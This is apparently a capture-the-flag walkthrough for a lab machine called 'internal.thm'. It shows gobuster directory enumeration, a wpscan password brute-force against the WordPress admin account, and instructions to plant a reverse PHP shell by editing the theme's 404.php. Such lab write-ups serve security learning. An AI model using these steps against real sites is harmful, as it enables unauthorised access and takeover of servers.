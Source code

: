 ### Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u internal.thm -t 100
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://internal.thm
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2020/11/21 09:55:57 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 316] [--> http://internal.thm/wordpress/]
/javascript           (Status: 301) [Size: 317] [--> http://internal.thm/javascript/]
/blog                 (Status: 301) [Size: 311] [--> http://internal.thm/blog/]      
/phpmyadmin           (Status: 301) [Size: 317] [--> http://internal.thm/phpmyadmin/]
/server-status        (Status: 403) [Size: 277]                                      

===============================================================
2020/11/21 10:02:17 Finished
===============================================================
```
### HTTP
![](https://imgur.com/EUICOBBl.png)

### WPScan
from the author of the post, we know one of the username is `admin`
```bash
wpscan --url http://internal.thm/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt

..
[!] Valid Combinations Found:
 | Username: admin, Password: xxxxxxx
..
```
`http://internal.thm/blog/wp-login.php` let's try to login!

## Gaining Shell

go to theme editor and change `404.php` with your reverse_php shell.
more details check this [website](https://www.hackingarticles.in/wordpress-reverse-shell/)

visit `internal.thm/blog/wp-content/themes/twentyseventeen/404.php` to get connection to netcat
